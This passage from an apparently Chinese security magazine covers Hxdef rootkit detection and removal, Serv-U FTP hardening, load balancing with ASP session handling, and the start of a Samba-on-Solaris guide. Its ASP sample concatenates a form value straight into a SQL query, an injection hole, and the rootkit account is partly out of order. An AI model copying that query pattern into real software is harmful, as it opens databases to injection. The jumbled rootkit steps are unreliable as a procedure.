Searching for other rootkits...... (Found 0 running rootkits)
*Wsecs...... timeout for connect and final net reads
```

> Rootkit Detector v0.62 for Windows 2000/XP/2003，可以检测许多个 Windows 下的 Rootkit。机器安装上 Hxdef100 后运行 RkDetector，Hxdef 马上现形。

可以看到 Hxdef 已经安装上去了。听说 Hxdef 使用了隐藏服务，那么我们拿出专门在命令行下看服务的 SC 来试一下。进入命令行，到 SC 目录下，输入：`sc query`。得到的结果如下所示：

```text
C:\defender>sc query
Enum: entriesRead = 11
Enum: resumeIndex = 116
SERVICE_NAME: Browser
SERVICE_NAME: Dhcp
SERVICE_NAME: Dnscache
...
SERVICE_NAME: lanmanserver
DISPLAY_NAME: Server
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 4   RUNNING
        (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0 (0x0)
        SERVICE_EXIT_CODE  : 0 (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
SERVICE_NAME: lanmanworkstation
DISPLAY_NAME: Workstation
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 4   RUNNING
...
SERVICE_NAME: LmHosts
DISPLAY_NAME: TCP/IP NetBIOS Helper Service
...
SERVICE_NAME: Netman
DISPLAY_NAME: Network Connections
...
```

这也找不到？我真是服了。我就不信它在硬盘上会没有文件，于是开始了下面的苦旅。我几乎找遍了所有系统路径，还在搜索里按照最新修改时间查找所有文件，居然一无所获。我甚至将 Norton 装上去对整台机器扫描，居然都不行！Norton 这些杀毒软件我平时都不装的，看来还是要卸载掉。

不过，这时候我想起了直接到那个 Hxdef 原来的目录下去看看，居然连整个 Hxdef 的目录都不见了！还是干脆用命令行来看吧，直接一层一层地进入，到了 Hxdef 下，如图2所示。

不是吧？！怎么不像大家所说的那样可以查到 Hxdef？居然没有列出 Hxdef 的服务，看来 SC 也没有什么特殊的地方了，这和“net start”看到的东西有多大区别？看来 SC 是指望不了了，我们还是再试试注册表吧。

再次拿出 Snapshot，对现在安装 Hxdef 后的注册表做一个快照，存放在 2.hiv 中，然后将 1.hiv 加载进来，将这两个比较一下，居然得到的结果中也看不到任何 Hxdef 的信息。看来 Hxdef 在将注册表操作 API 挂钩之后，所有对 Hxdef 对应注册表键值的操作都被过滤了，真绝！简直是断人生路嘛！

请教了一下一位仁兄，告诉我说 Pslist 可以起作用。我觉得挺奇怪，难道 Pslist 不是用那些列进程的 API 函数来做的？拿出我的 Pslist，执行一下，居然弹出如图1所示的错误，看来 Pslist 是不行的。

> 蝴蝶：到这里我可要批评一下写 Hxdef 这位老大了，你就算 Hook 了 API，也不能这么明显吧，至少得让 Pslist 正常工作吧？像这样让人家罢工不就一下暴露了？！……大家注意了，如果你在执行 Pslist 的时候碰到这个提示，就要考虑是不是自己被 Hook 了，当然要考虑是不是有 Hxdef 在自己的机器上跑了。

看到了吧，居然在命令行中看到了 Hxdef 的目录，真是不可思议！不过，目录下的文件还是看不到。看来 Hxdef 真的把所有名为 Hxdef 的目录全部都 Hook 过滤了。我在其他分区下建了个名为 Hxdef 的文件夹，果然建好就不见了。我再次创建 Hxdef 的时候，系统提示同名错误，更进一步证实了我的想法。进程、服务、端口、注册表、文件，一样一样都被 Hook 过滤了，真是高啊，现在就只想哭了。

我就不信它这么邪乎，是人就有弱点，是鸡蛋就有缝！我就不信它没有办法干掉。经人指点，我拿出了 Windows 2000 的启动光盘，输入管理员密码之后就进入了故障恢复控制台。使用 DIR 命令直接看看：`\tools\remotecontrol`，居然看到了所有名字带有 Hxdef 的压缩文件和文件夹。这下我可乐坏了……C:\winnt 下直接敲入 C:，居然还是拒绝访问……在纯 DOS 下访问 NTFS 分区也很困难，难道真的没有办法了？

看来下面只能从系统进程的启动顺序入手了。我想看看 Hxdef 到底是不是依附于 explorer.exe 的。

```text
HKEY_LOCAL_MACHINE\software\Microsoft\windows NT\CurrentVersion\Winlogon\Shell
```

删除该键值中的 `C:\winnt\explorer.exe` 后重启，桌面被 hook，但在 cmd 中用检测工具发现 Hxdef 仍已启动，由此判断其通过服务方式在 Explorer 之前启动。

随后恢复键值并再次进入系统，把 `Tools` 目录改名为 `Tool`，重启后在 `F:\tool\remotecontrol` 下找到了 Hxdef 文件与压缩包。

继续对比注册表 `1.hiv` 和 `2.hiv`，得到如下差异：

```text
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\HackerDefender100\Enum\Count ...
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\HackerDefender100\Enum\NextInstance ...
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\HackerDefender100\Security\Security ...
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\HackerDefender100\Type ...
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\HackerDefender100\Start ...
```

```text
Services\HackerDefender100\ErrorControl 0x00000000
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\HackerDefender100\ImagePath ...\hxdef100.exe
...\DisplayName "HXD Service 100"
...\ObjectName "LocalSystem"
...\Description "powerful NT rootkit"
...\Enum\0 "Root\LEGACY_HACKERDEFENDERVDRV100\0000"
...\HackerDefenderDrv100\ImagePath ...\hxdefdrv.sys
...\Start 0x00000003
...\Type 0x00000001


```

再查看服务，确认其注册服务名为 **HXD Service 100**。原来服务是这样隐藏的，Hxdef 随后会改名。
文中进一步讨论了路径改名、分区切换、从干净系统启动后删除 Hxdef 文件、清理注册表与服务等处理思路，结论是通过修改启动分区与离线清理可以有效解除该隐藏驱动/服务。

## 七步构建安全的 serv-u-FTP 服务器

文／netff

刘流：现在，网络上采用 Serv-U-FTP 作为自己 FTP 服务器的人越来越多，但大多采用了默认的配置，或者只在表面上加强了一下其安全性，这样的机器能不存在安全隐患吗？！那到底怎样才能加强 serv-u-FTP 服务器的安全性呢？

难度等级：初级

前置知识：Serv-U-FTP 服务器的基本配置

昨晚在外面逛的时候，一个朋友打电话给我，说他在家配置了一台 FTP 服务器准备作为网友间的数据共享服务器，叫我过去帮他看一下服务器的安全性，我刚好闲着，所以也就顺便过去看看。

服务器的操作系统是 Windows 2000 Server，磁盘格式是 NTFS，没有装 IIS。提供 FTP 服务的软件是 Serv-u 最新的 4.108 版，一些较为基本的配置都已经配置完毕，只待确认安全性如何之后即可投入使用。

经过一番检测，我对服务器做了相应的安全加固，包括操作系统的安全加固、补丁等，以及 FTP 服务软件方面的安全及加固——操作系统的加固现在已经被成打成打的教材泛滥了，这里就不再重复了，关于 Serv-u 一些较为基本的配置也已经有人写成教程在网上流传了，我也不想再赘述了，现在只谈对 FTP 服务加固的一些方法及小技巧，希望能给大家带来方便。

上面这些是我认为在默认安装时存在的不安全问题，其他的在安装时按默认设置就行了。
图 2

### 禁止匿名访问及锁定相关目录

Serv-u 在安装配置的过程中会提示是否允许匿名用户访问 FTP 服务器，默认是允许匿名访问的。从安全角度看，我认为没有这个匿名访问的必要，记得前段时间有朋友就写过一篇利用匿名用户实现攻击的文章，现在都还记忆犹新。所以，我建议不允许匿名访问 FTP 服务器，我们可以建一个指定的账号让其他人进来——在安装的时候选择不允许匿名访问（图 1）。

选择了不允许匿名访问后，Serv-u 会提示新建一个账户，输入新建账户的相关信息及指定访问的文件夹之后，它会提问是否锁定该账户在该文件夹下，默认是不锁定的。如果这个账户及密码只有你一个人知道的话，那问题不大，但如果该账户的密码要公开的话，建议锁定，因为目录一旦被跳出，资料就没有安全性可言了（图 2）。
图 1

### 加强对用户账号的管理

上面我们不允许匿名用户，并创建了一个新的账号来访问我们的服务器。但是，我们的 FTP 服务器需要上传、下载数据，如果一个账户既上传又下载，那管理起来非常麻烦！所以，我们必须有两个账号，一个只允许上传，另一个只允许下载——允许上传数据的账户上传的数据放在一个特定的文件夹中，只有写入权限，无法下载。而专为下载而设置的账号只有读取数据的权限，没有写入等其他方面的特权，这样的配置安全性就会高得多！

现在，假设我们要给上传用户新建的账号是 shudong，给下载用户建的账号是 netff，那么，在 Serv-u 服务器中给它们设置的权限就如图 3、图 4 所示。

在这里提醒各位读者，在给用户设置权限的时候千万不能马虎，特别是给具有上传权限的账户设置权限时更是如此。记住：上传跟下载两个账号访问的文件夹不要是同一个，也不能给具有上传权限的账户读取权限。否则，你的 FTP 服务器很有可能某一天成为某些人入侵的中转站。

另外，我还建议那些已有或想建 FTP 服务器的朋友：不要在一台 FTP 服务器上建太多账号。账号太多了，自己想整理都整理不过来。如果有一天有人进入你的服务器后，在你的 FTP 服务器上建一个具有特权的账户你都不知道，那到时你服务器里面的所有数据就更加危险了。

顺便说一下，Serv-u 在创建第一个账户时给的权限相当大，要注意这个账户是否真的需要这么高的权限。如果确实需要的话，那这个账户的密码越少人知道越好。另外，当我们给 FTP 服务器新增账户的时候，用户名称及密码最好不要含有“.”或“@”等特殊符号，否则用 IE 等登录 FTP 服务器时往往会出现一些意想不到的错误。
图 3
### 修改 Banner

通过上面的设置，我们可以登录到我们的 FTP 服务器去看看。咦！怎么我还没有登录上去就可以看见我的 FTP 服务器的软件名称及软件版本号啊（图 5）。
图 5 红线上边显示的是 Serv-u 的 banner，很多软件都有这个特征，那怎么办？我们来隐藏 Serv-u 的 banner。打开 Serv-u 的管理器并来到域（如 ftp.netff.org）下 settings 下面的 Messages 模块，有没有看到那个“Server ID text”？它右边显示的就是 Serv-u 的 banner 内容（图 6）。
现在我们来修改它的 banner 显示内容，改成：“Welcome to netff's FTP server”，达到欺骗恶意者的目的，结果如图 7 所示。再按下下面的“Apply”按钮即生效。
现在我们再连接上去看看，结果如图 8 所示。怎么样？现在对方想知道我们的 FTP 服务用的是哪个软件及版本号，就只好慢慢去猜了。

上面的修改只是对当前的域生效，如果你打算再在这台机上新建另一个域的话，新建后的域的 banner 还是显示原来 Serv-u 默认显示的那个。你可以再按上面提到的方法相应改过来就行了。

### 加强对文件夹存取权限的控制

奇怪，文件的存取权限跟 FTP 服务有什么关系？如果你的操作系统驱动器格式是 NTFS 的话，那就有关系；如果是 FAT 或 FAT32 格式的话，那就没有关系了。在 FTP 服务中，我们除了可以在 FTP 软件中控制用户对文件夹的存取权限之外，还可以利用系统自带的文件存取权限来进行有效控制。

或许你觉得我们在上面对 FTP 软件对其所能访问到的文件夹权限已经设置得很安全，那也不能说错。但我认为光靠一个软件做一重防范不如双重防范来得安全。再者，在以后的日常运作中，你或你的同事可能会在 FTP 服务器中增加相应账号，此时如果在权限方面不加注意的话，那就有可能给别人入侵的机会了！所以，我认为这一步还是必要的。
现在，我们来对 FTP 服务器账户中用户所能够访问到的文件夹做进一步的存取权限控制：我们先来设置上传的那个文件夹的存取权限，假设它就放在 `c:\ftp\up` 文件夹。选定 up 文件夹的属性，来到“安全”选项卡，不选“允许将来自父系的可继承权限传播给该对象”，此时会弹出一个提示对话框，选“复制”按钮，并将 up 文件夹的属性改成跟图 9 一样。
这样修改的结果是：就算我们在 Serv-u 的文件存取权限方面有设置不当的地方，系统也会对当前用户的存取权限进行相应限制，进一步加强了对当前文件夹存取等方面的安全性能。当然，认认真真地设置好每一步，注意好每一个环节，才是做好安全工作的一个前提。现在我们对 up 文件夹的存取权限设置完了，现在来设置提供下载的 down 文件夹权限，操作跟上面类似，不过得将 down 文件夹的存取权限属性改成如图 10 一样。

如果觉得有必要，我们还可以利用系统自带的审核功能对存放 FTP 服务器数据的文件夹进行审核。一般是审核相应的文件夹存取失败、特权的使用等等方面，其他的就不用了吧。不过，一般服务器就用不着审核，这里就不做介绍了。

### 屏蔽好事者的 IP 地址

Serv-u 有一个屏蔽、限制某个 IP 或某段 IP 地址访问本机 FTP 服务的功能。我们来试着用它屏蔽某个 IP 地址。如图 11 所示，只要我们按下“Add”按钮再按“Apply”按钮，我们就屏蔽掉了 `192.168.0.1` 这个 IP 地址访问我们的 FTP 服务器的权限了。如果要屏蔽整个 C 类地址，我们可以用 `*` 号来代表某个 IP 段。对被屏蔽的机器来说，对方的 FTP 服务还是存在的，只是服务器还没有返回相关登录信息，使对方一直处于等待服务器返回相关信息的状态，直到超过客户端所能忍受的限定时间而超时自动断开。
### 对服务器防毒策略

由于我们的服务器具有让其他用户用指定账号上传数据的权限，也由于上传的人可能众多，加之上传的数据也是千奇百怪，什么都有，这些上传数据中难免会因为个别别有用意的人传了些带毒数据上来，给我们的服务器造成威胁。再说哪天我们不注意将这些带毒数据放到下载区供其他人下载，那问题可就来了。怎么办？我怎么知道他们上传的数据里面有没有带病毒？最方便的办法就是装个防毒软件，并定时对所有上传数据进行查杀，让防毒的事交给它去处理。在这里我推荐用诺顿企业版的杀毒工具，诺顿杀毒软件的质量如何就不用我多说了。诺顿的安装非常简单，就不介绍了。但记得安装完成后一定要启用实时监控并更新一下病毒库。

现在，我们来设置诺顿定时更新病毒库并且定时对这些上传数据进行查杀。

先设置定时更新：我们将其设置成每天凌晨两点自动更新病毒库，设置方法是：“文件”→“调度更新”，这时将打开一个“调度病毒定义更新”的对话框，里面显示诺顿定义更新发生的频率时间，诺顿默认是每星期五 20 点更新，我们更改一下它的默认设置，按“调度”按钮进入设置页面，将其修改成如图 12 所示。以后，诺顿就会在每天凌晨两点自动连接到诺顿服务器进行自动更新病毒库了。
设置完自动更新病毒库后，我们来设置诺顿的定时扫描。来到诺顿下面“调度扫描”下的“新建调度扫描”，给要新建的扫描项目起个名称后按“下一步”按钮，来到这里需要设置开始扫描的时间，一般定在半夜的时候扫描，那时登录到服务器的人肯定很少了，有利于扫描速度，也不影响上传、下载用户的速度（图 13）。定完时间之后按“下一步”来选择扫描位置，选择上传数据的存放位置（图 14）。如果觉得有必要，还可以利用诺顿的定时扫描功能定时对整个系统进行全面扫描，在这里就不再做介绍了。
### 让 FTP 服务穿过防火墙

呵呵，在这个黑客平民化的今天，别说你的 FTP 服务器是公开的，就是那些拨号上网的用户也难免受到攻击者的攻击。那怎么办？既然无法避免，那我们只好将安全尽量做到家，让攻击者知难而退。用什么办法呢？除了系统安全等方面做好之外，我认为给它加道防火墙还是应该的。再说一台整天放在因特网上的服务器没有一道防火墙保护，似乎有点说不过去，至少人家说咱没有安全意识。那咱们就来给它加上一道防火墙。

现在可选的防火墙非常多，光是软件的就看得我眼花缭乱。你喜欢玩哪个防火墙就选哪个吧。不过你的防火墙安装并启动后，你的 FTP 服务器别人可就进不来了，这是怎么回事？

原来是防火墙将 FTP 服务拦在里面，想要让它出去及让别人进来可得跟防火墙打声招呼。要让 FTP 服务穿过防火墙其实很简单，因为 FTP 服务一般开 21 端口，我们只要在防火墙做相应设置就行了，一般是告诉防火墙：允许所有机器的任何端口访问本机的 21 端口。以后，其他人就可以来去自如了。

以 BlackIce 为例，打开 BlackIce 的“Tools”菜单下的“Advanced Firewall Settings”，在弹出的对话框中按“Add”按钮来添加防火墙规则，在弹出的规则对话框中将其配置成跟图 15 一样。

完成后按“Add”按钮确认退出就行了。现在可以去试试外面的客户机是否可以进来了。

在这里还要说一下，如果你的 FTP 软件不是 Serv-u，而是微软 IIS 自带的 FTP 或其他软件的话，当你通过上述方法配置防火墙后，发现用 cute ftp 等 FTP 专用软件连接进来是完全没有问题的，但当你用 IE 等工具在地址栏中输入服务器地址及用户名和密码之后，等下会出现提示出错，如找不到服务器，或进去后无法获取当前目录、文件等内容时，不要怀疑，这是 FTP 服务的工作方式造成的，不是你的问题，还是使用专用工具吧！
图 15

到此为止，一个由 serv-u 搭建起来的安全 FTP 服务器就建好了！大家可以方便地使用了！要是你也想用第三方软件来搭建这样的 FTP 服务器，那不妨使用上面介绍的方法试试，相信一定会给你个满意的效果！

## 利用网络负载平衡对抗 DoS

网络负载平衡（NLB）是 IP 负载平衡技术，它是 Windows 2000 Advanced Server 和 Windows 2000 Data Center 的一部分。有了 NLB，传入的 TCP 通信、用户数据报协议（UDP）通信和一般路由封装（GRE）通信请求被分发给各个群集成员。分发的依据是基于服务器负载百分比设置的统计算法。通过使用网络负载平衡创建服务器群集，可增强 Internet 服务器程序的可用性，这些 Internet 服务器程序可以是用于 Web、代理、域名服务（DNS）、FTP、虚拟专用网（VPN）和流式媒体服务器等程序。

同时，网络负载平衡有助于调整你的服务器性能，以跟上不断增长的基于 Internet 客户端的需求。同时 NLB 提供了动态伸缩功能，即在不影响客户机的情况下，自动适应群集内服务器的添加和删除。NLB 是智能的，因为它可以检测到服务器故障，并将其从正常运行的群集内悄悄删除。集群资源从当前不可用的节点切换到可用节点、重新提供服务叫做故障切换。通常故障切换有如下两种类型：

- 有计划切换：由系统管理员进行系统升级或软件维护而强制进行切换。
- 故障切换：由于掉电、系统或软件故障而引起的切换。

### 深入了解群集

在对网络负载平衡的应用例子讲解之前，我们必须来了解群集这样一个概念。群集就是一组连在一起的计算机，从外部看它是一个系统。各节点可以是不同的操作系统或不同硬件构成的计算机。例如，一个提供 Web 服务的集群，对外界来看是个大 Web 服务器。不过集群的节点也可以单独提供服务，我们来看一个基本的群集图（图 1）。
图 1

### 实现群集的方法

实现了群集在某种程度上就算是实现了负载均衡。一般来说，我们可以通过下面几种方式进行群集服务。

- 网络地址转换（NAT）法。这种方法可能大家较熟悉，地址转换器有能被外界访问到的合法 IP 地址，它修改来自专有网络的流出包地址，外界看起来包是来自地址转换器本身。当外界包送到转换器时，它能判断出应该将包送到内部网的哪个节点。优点是节省 IP 地址、能对内部进行伪装；缺点是效率低，因为返回给请求方的流量经过转换器。我们还可以对 NAT 进行改造，创建多路 NAT 服务，使多个 IP 地址和网络通道混合使用。
- 直接路由（Direct forwarding）法。当参与集群的计算机和作为控制管理的计算机在同一个网段时可以用此法，控制管理计算机接收到请求包时直接送到参与集群的节点。优点是返回给客户的流量不经过控制主机，速度快、开销少。
- 隧道技术（Tunneling）。这种方式是在集群节点不在同一个网段时可用的转发机制，是将 IP 包封装在其他网络流量中的方法。为了安全考虑，应该使用隧道技术中的 VPN，也可使用租用专线。

总之，集群所能提供的服务是基于 TCP/IP 的 Web 服务、Mail 服务、News 服务、DNS 服务、Proxy 服务器等。

### 应用案例

下面介绍一个用 TurboLinux Cluster Server 来实现负载均衡集群系统的例子，用于提供 Web 和 FTP 服务。其实这个例子在网上很多，大家还可以到网上去找找相应资料。

配置为：服务器共有 12 台，其中 11 台安装 TurboLinux Cluster Server，1 台安装 Windows 2000 Server。我们给外部提供 Web 和 FTP 服务，要求外部连接始终转换请求到内部服务器。具体配置如下。

网络设置：netmask `255.255.255.0`

配置集群各节点：因为 TurboLinux Cluster Server 本身能被工具自动同步，所以只需配置 Windows 2000 Server：开始→设置→控制面板→添加新硬件→下一步→添加/排除设备故障→添加新设备→否，从列表选择硬件→其他设备→Microsoft\Microsoft Loopback Adapter→完成。桌面上右键单击“网上邻居”→属性→TCP/IP→设置 IP 地址、缺省网关、子网掩码（注：先设成 `255.255.255.0`）。开始→运行→regedit→找到注册表中跟 Microsoft Loopback Adapter 相关的项，将子网掩码改成：`255.255.255.255`。

配置系统以便运行合适的服务，并配置适合控制管理器管理的配置，以便在控制管理器中使用。

在管理选单中执行内容同步：选 tlcs_content_sync，输入密码，将复制控制管理计算机中的服务内容。在管理选单中执行设置同步：选 tlcs_config_sync，输入密码，将复制控制管理计算机中的设置。现在已经可以进入运行状态，可将客户端连接在服务器交换机上，客户端可以请求 Web 和 FTP 服务，需要查看运行情况可以用控制台从 `https://com1.blcserver.com:910` 管理。

作为防火墙的计算机设备同样也需要负载平衡。通常，防火墙处于外部网和内部网之间，决定了哪些内部网络可以被哪些外部网络访问，以及哪些外部服务可以被内部人员访问。

- 设置各台服务器的 IP 地址、子网掩码、路由等。通过网络，将一台 TurboLinux 服务器设置成 DNS 服务器，使其能够正向解析和反向解析。服务器名比例为 pc1，域为 test.com。
- 配置 Cluster Server。执行 `Turbolinux clusteradmin`，设置情况如下（注：箭头连接的是选单选项，箭头所指为下级选单，最后冒号后为设置情况）。

```text
ClusterServer Configuration -> Cluster Services -> Application Stability Agents:
(1) http 为默认的服务，不用设置
(2) ftp ---- /usr/lib/ftpAgent

ClusterServer Configuration -> Cluster Services -> Service Settings:
(1) http,80/TCP,sticky
(2) ftp,21/TCP,ftp

ClusterServer Configuration -> Servers Configuration:
(1) pc1 (pc1.test.com),direct,ping
(2) pc2 (pc2.test.com),direct,ping
(3) pc3 (pc3.test.com),direct,ping
(4) pc4 (pc4.test.com),direct,ping

ClusterServer Configuration -> Advance Traffic Managers:
(1) Advance Traffic Manager System: pc1.test.com
(2) Advance Traffic Manager Setting: 默认值

ClusterServer Configuration -> Virtual Servers:
(1) 主机为: pc1.test.com
(2) sendmail: master@pc1.test.com
(3) Server pool name: ServerGroup1

ClusterServer Configuration -> Global Settings:


```

这样就造成了防火墙必定肩负着沉重的负担，而负载平衡恰恰可以缓解外部网络多个主干网络带宽的压力，即在防火墙上面增加冗余功能。使用了负载平衡算法的冗余防火墙系统，能监测每个防火墙上的用户数目和流量，平等地动态分配单元进出的流量，保证所有安装的防火墙的性能处在最优化状态，这样整个系统处理数据流量的能力比单个防火墙就有了很大的提高。同时，不论处于备用状态还是负载均衡状态下，每个防火墙还监视其他设备的工作状态，当一个防火墙单元失效时，系统会将所有请求重新分配到其他单元上，并达到新的负载平衡（图2，多个防火墙单元）。
配置上面的防火墙体系，首先需要防火墙自身的支持，这种防火墙可以采用 SecureCom 8001 防火墙。其次需要对路由器进行设置，对进出外网的数据包进行转发才行。负载平衡应用到网络 IDS 的原理也和防火墙差不多，大家可以试着去揣摩一下。

在程序编写上我们也可以用到负载平衡，只是现在的负载平衡很明显是用软件来替代硬件的算法，在速度上可能不是那么快，但效果还是很好的，可以缓解外部对内部服务器的要求。大家都使用过的 QQ，其服务器就有很多台，而每次我们登录的服务器可能都不是一样的。尽管如此，也许我们登录的 IP 也只是一个群集 IP 地址（即这个 IP 地址会把我们重新定向到另一台我们所不知道的服务器上面，实现负载均衡）。很多大型的有实力的公司也会在全国各地建立自己的分站点，总不可能大家都去访问一台服务器吧，这样服务器很容易崩溃的。

接下来，我们来和大家讨论一下如何在 ASP 程序里实现负载平衡。当我们创建交互式 Web 页面时最大的挑战之一是维持用户的状态，一个站点也许想记住你是谁，在 n 页之前你点击了什么，在这最后一次做了些什么，现在马上要向你显示什么。实现这些功能的途径有许多，如查询字符串、提交表单或 Cookies，最强大的一种是 ASP 的 Session 对象。服务器可以在 Session 集合中跟踪一整群的变量，通过与用户的 Session Cookie 相匹配来保持每个用户有一个特定变量。只要用户在服务器上保持活跃，Session 变量就维持它的状态。然后在大量用户的使用中跟踪用户会给服务器带来很大的负载。

然而对真正的负载平衡来说，每当处于服务器上的用户点击一个连接时，它就转到另一服务器上面去，从而改变服务器的状态，而每当浏览一个新页面时都可能丢失他们的 Session 信息。如果你发现自己是在这样的环境下编写代码，或者你怀疑你的站点最终是负载平衡的，可能只有 4 种方法来解决这个问题：完全不使用 Session、使用临时 Cookies、购买第三方组件来处理 Session 管理，以及仅对 Web 范围内的第一次点击进行负载平衡。

## 1. 根本不使用 Sessions

显然，绕过 Sessions 管理这个问题的一个途径就是根本不使用 Sessions 变量，但是你仍然受困于状态保持的问题。你可以使用最简单的方法跟踪用户，而不用写客户端程序。一种不安全的方法是使用浏览器查询字符串，或用隐藏值进行表单置入，以使用户保持活跃状态。这将允许你给他们一个用户 id，并将变量存储在一个所有的 Web 服务器都能到达的地方。比如说，我们保持了变量 ShipToZipCode、TypeOfCustomer 和 CustomerEmail，可以这样写：

```html
<form action="/nextpage.asp" method="post">
Item Number: <input type=text name="ItemNumber"><br>
Quantity: <input type=text name="Quantity"><br>
Unit Cost: <input type=text name="UnitCost"><br>
<input type="hidden" value="ABXXXXKJR8SDF112KJIL2H75CY45X2" name="sessionid">
<input type=submit value="post form">
</form>

Set conn=Server.CreateObject(ADODB.Connection)
Set SessionRS=conn.execute("Select ShipToZipCode, TypeOfCustomer, CustomerEmail from TblSession where SessionID='" & request.form("sessionid") & "'")
ShipToZipCode = SessionRS("ShipToZipCode")
TypeOfCustomer = SessionRS("TypeOfCustomer")
CustomerEmail = SessionRS("CustomerEmail")
```

这样通过将所有的 Session 信息存储在数据库中，可以使这 3 个变量在每一页上都保持活跃，确保用户 ID 的值很难猜到，这很重要。当访问第一页时，将分配给用户的 sessionID 存储为用户名。当用户离开这一页时可以考虑清除这个数据，有效地重新生成 ASP session 对象。这可以手工完成，或者用一个限时程序将数据库上的记录删除。

## 2. 使用临时 Cookies

对于特别的非敏感数据，直接向客户机中写入信息是有意义的。比如说，如果我们的站点只使用了一个变量来跟踪用户的 ZIP 码来得到用户在当地的交通记录，那么以 HTTP Cookie 的形式将用户的 ZIP 码写入他们的机器应该不会产生什么危害。因为你可以将 Cookie 写成浏览器关闭时失效，就可以使它们模仿一个 Session 变量的功能，也可以使它们是持久的，好在用户下一次访问时记住它。

用 Request 对象 Cookie 的值可以为服务器所用：请求 Cookie 的值，然后将值带进来。所以在我们上面的例子中，可以这样做：

```asp
ShipToZipCode = Request.Cookies("SessionCookie")("ShipToZipCode")
TypeOfCustomer = Request.Cookies("SessionCookie")("TypeOfCustomer")
CustomerEmail = Request.Cookies("SessionCookie")("CustomerEmail")


```

你不得不把这些放置在每个页面的顶部，但是如果用户把 3 个 Cookies 都设置了，那么每一页都可以存取和使用这些用户特定的变量。你还可以在一个 Cookie 中设置 3 个变量，请看 Ken Baumbach 的文章 Cookie Basics with ASP，里面有设置变量的更多信息。如果你认为用户可能在浏览器上使 Cookie 无效，这种方法就不适用。但是越来越多的站点要求使用 Cookies，Web 用户也越来越熟练了，有可能相对很少的用户会使 Cookies 无效，但是这要在执行这一方法之前进行考虑。虽然上面的方法肯定能奏效，但是它们削弱了 ASP 的功能，因为它限制了其中一个关键组件 Session 对象的使用。

## 3. 购买一个第三方组件

第三方组件一般可以比 IIS 更好地处理 Session。在这里我们向大家介绍一个组件：由 SoftArtisans 提供的 SA-Session Pro。它使用 Windows 2000 文件系统存储用户的信息，整个网络范围内的服务器都可以使用。第三方组件创建“Session 引擎”，把网络服务器和 Session 管理器分离。这样，每次用户都可以被重定向到相同的 Session 引擎，同时也对服务器本身的点击进行负载平衡。另一个可选择的第三方组件是 Microsoft 的成员服务器。它是 Microsoft 的站点服务器，它允许一个站点处理状态维护以外的问题。

由于 ASP 已经越来越成为企业级网络应用程序的选择，而负载平衡也成为这些应用程序成功的最大威胁，在市场上会出现越来越多的第三方组件。ASP 本身就是服务器对象或 ActiveX 组件，就是可以处理这些插件的。不知道大家现在对 SQL 2000 了解吗？现在 SQL 2000 可以和 Windows 2000 合作处理用户的 Cookies，这样一来，ASP 的 Cookies 变量和 Session 可以都存储在 SQL 2000 数据库中，我们就再也不需要购买其他不是很可靠的第三方组件了。

## 充分利用 Windows 2000 Advanced Server

Windows 2000 Advanced Server 操作系统在包含 Windows 2000 服务器标准版全部特性和功能的基础上，为需要高度可伸缩性、可靠性及可用性的组织机构提供了额外特性。Windows 2000 Advanced Server 是一种通用高可用解决方案，适用于当今的 PC 客户端/服务器局域网。它通过共享的 SCSI 磁盘阵列将两套 Windows 2000 系统耦合在一起，创建成一种单一系统环境，或称为集群。

终端客户可以存取所有的集群资源。例如，磁盘共享、文件共享以及数据库应用程序，而且不必了解集群内部各服务器名字。如果一台服务器失效，集群的第二台服务器将立即接替其工作负荷，重新连接客户机，还能共享存储器和文件共享等。

Windows 2000 Advanced Server 集群采用工业标准部件，以非常低的成本提供系统级高可用性。对客户机来说，集群的寻址跟单一服务器寻址没有差别。集群通过冗余 CPU、存储器以及数据路径提供高水平的可用性。Windows 2000 的网络负载平衡群集最多可将 32 台运行 Windows 2000 Advanced Server 软件的服务器合并到单个群集中，以此对基于 TCP/IP 的服务和应用程序提供可伸缩性和高可靠性。
客户端可使用一个 IP 地址访问群集，并用其他 IP 地址访问同多宿主服务器。网络负载平衡群集通过在群集中的服务器之间分配客户机连接以提供高性能。如果服务器故障或因升级、测试和维护而脱机，群集将自动重新配置，而且客户机连接也将重新分配。（图3）

如果要在非群集环境下访问某个网络应用程序或资源，网络客户端必须与物理服务器（是指网络中由唯一的网络名称和 IP 地址所标识的特定计算机）连接。如果该服务器发生故障，则无法访问应用程序或资源。Windows 2000 Advanced Server 允许通过服务器群集创建虚拟服务器。与物理服务器不同，虚拟服务器不与特定的计算机相关联，但可以像组那样进行故障转移。如果虚拟服务器所在的节点产生故障，则客户端仍可以使用相同的服务器名访问它的资源（图4）。
对硬件 RAID 的支持，Microsoft Windows 硬件兼容性列表也包含了用于群集的许多不同硬件 RAID 配置（图5）。
群集技术和负载平衡是不可分割的。我们用了很大的篇幅给大家介绍了群集技术，它是实现负载平衡的关键。而负载平衡技术的强大功能，大家还必须通过亲身实践才能体会到。

| 适合对象 | 网络管理员、*nux 系统/*BSD 系统研究员 |
|---|---|
| 前置知识 | *NIX 使用经验及其相关网络技术 |

## Solaris 8 x86 上实现 Windows 平台安全共享

### —— samba 安全配置

刘流：关于 samba 的实现，在网上是多如牛毛的；然而这些文献多是讲述如何在 Linux、FreeBSD 下实现 samba，而在 Solaris x86 上如何实现 samba 以及安全配置却很少见到详实内容。虽然都是 *nix 平台，但在 Solaris x86 上实现 samba 与 Linux、FreeBSD 还是有较大区别。鉴于很多企业服务器使用 Solaris x86，特约有 Solaris 经验的作者撰写本文，希望对有需求的网管有所帮助。

文 / hardi（中国黑客联盟）

谈到资源共享，人们总认为同一平台下资源可相互复制、粘贴、修改。在 Windows 平台下不用说；在 Linux/UNIX 下可以 mount。但 Linux/UNIX 与 Windows 互访常见两条途径：一是 FTP 上传下载，二是 samba。FTP 在安全性和易用性上都不理想，因此从安全性考虑更推荐 samba。很多人听过 samba，但深入了解并不多。

> **小提示**：这两个文件一定要先下载好，否则运行 samba 时容易报错。

不知道大家习惯如何，我习惯把下载下来的东西放到 `/tmp` 文件夹里。

```bash
